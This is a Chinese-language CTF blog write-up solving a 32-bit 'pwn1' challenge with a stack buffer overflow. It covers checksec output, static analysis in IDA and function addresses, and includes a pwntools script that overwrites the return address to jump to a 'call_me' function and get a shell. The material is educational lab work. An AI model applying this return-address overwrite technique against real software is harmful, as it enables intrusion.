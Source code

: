 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      CTF-Pwn1 				# 标题 
subtitle:   Hello Eutopia's Blog #副标题
date:       2023-10-08 				# 时间
author:     Eutopia 						# 作者
header-img: img/post-bg-6.png 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - CTF PWN 逆向 栈溢出

---
```


# CTF-Pwn1

- 首先使用`checksec`工具进行检查：

![checksec](https://s3.bmp.ovh/imgs/2023/10/08/e3f579b58841907c.png)

![file](https://s3.bmp.ovh/imgs/2023/10/08/9795f93f6188b8bf.png)

​		可以发现，`pwn1`程序为32位，仅开启了DEP保护，动态链接。

- 然后使用ida64打开进行静态分析，可见`stack_overflow`函数存在漏洞，可以进行栈溢出攻击。

`main`：

![main](https://s3.bmp.ovh/imgs/2023/10/08/ed088b2f698bfb0b.png)

`stack_flow`：

![stack_flow](https://s3.bmp.ovh/imgs/2023/10/08/759eed2870a46761.png)

`call_me`：

![call_me](https://s3.bmp.ovh/imgs/2023/10/08/a6f33a1fa7490f95.png)

​		另外，发现内部有`call_me`函数，可知需要通过栈溢出覆盖返回地址为`call_me`函数地址。

- 上述函数地址：

| 函数名       | 地址       |
| ------------ | ---------- |
| `main`       | 0x080484C2 |
| `stack_flow` | 0x08048494 |
| `call_me`    | 0x0804846B |

- 使用gdb工具进行调试，可以查看栈的情况。![stack](https://s3.bmp.ovh/imgs/2023/10/08/4aedc8b2d9357d55.png)
- 构造python脚本进行动态调试：

`python`：

```python
from pwn import *

context(arch="i386", log_level="debug")
p = process("./pwn1")

call_me = 0x0804846B
leave = 0x080484C0

retn = 0x080484F4
payload = flat(b'a'*(0x28), retn, call_me)
p.recvuntil("Please finish pwn1!")
gdb.attach(p, 'b *0x080484C0')
p.send(payload)

p.interactive()
```

- 最终成功执行`call_me`函数，获取shell。

![result](https://s3.bmp.ovh/imgs/2023/10/08/99d7edda5ea57da7.png)

